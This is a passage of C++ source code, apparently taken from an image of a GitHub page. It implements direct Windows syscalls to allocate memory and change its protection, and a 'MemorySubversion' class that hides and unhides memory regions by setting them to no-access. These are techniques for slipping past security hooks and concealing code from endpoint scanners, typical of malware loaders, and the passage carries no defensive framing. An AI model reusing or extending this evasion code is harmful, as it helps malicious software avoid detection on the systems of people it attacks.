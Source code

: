 public:
    static NTSTATUS SyscallAllocateMemory(
        HANDLE ProcessHandle,
        PVOID* BaseAddress,
        SIZE_T Size,
        ULONG Protect) {
            
        DWORD syscallNumber = GetSyscallNumber("NtAllocateVirtualMemory");
        SIZE_T regionSize = Size;
        
        return ExecuteSyscall(syscallNumber,
            (DWORD64)ProcessHandle,
            (DWORD64)BaseAddress,
            (DWORD64)0,
            (DWORD64)&regionSize,
            (DWORD64)(MEM_COMMIT | MEM_RESERVE),
            (DWORD64)Protect);
    }
    
    static NTSTATUS SyscallProtectMemory(
        HANDLE ProcessHandle,
        PVOID* BaseAddress,
        SIZE_T Size,
        ULONG NewProtect) {
            
        DWORD syscallNumber = GetSyscallNumber("NtProtectVirtualMemory");
        ULONG oldProtect;
        
        return ExecuteSyscall(syscallNumber,
            (DWORD64)ProcessHandle,
            (DWORD64)BaseAddress,
            (DWORD64)&Size,
            (DWORD64)NewProtect,
            (DWORD64)&oldProtect);
    }
};

class MemorySubversion {
private:
    static void HideMemoryRegion(LPVOID address, SIZE_T size) {
        MEMORY_BASIC_INFORMATION mbi;
        if (VirtualQuery(address, &mbi, sizeof(mbi))) {
            DirectSyscall::SyscallProtectMemory(
                GetCurrentProcess(),
                &address,
                size,
                PAGE_NOACCESS);
        }
    }
    
    static void UnhideMemoryRegion(LPVOID address, SIZE_T size, DWORD protection) {
        DirectSyscall::SyscallProtectMemory(
            GetCurrentProcess(),
            &address,
            size,
            protection);
    }
    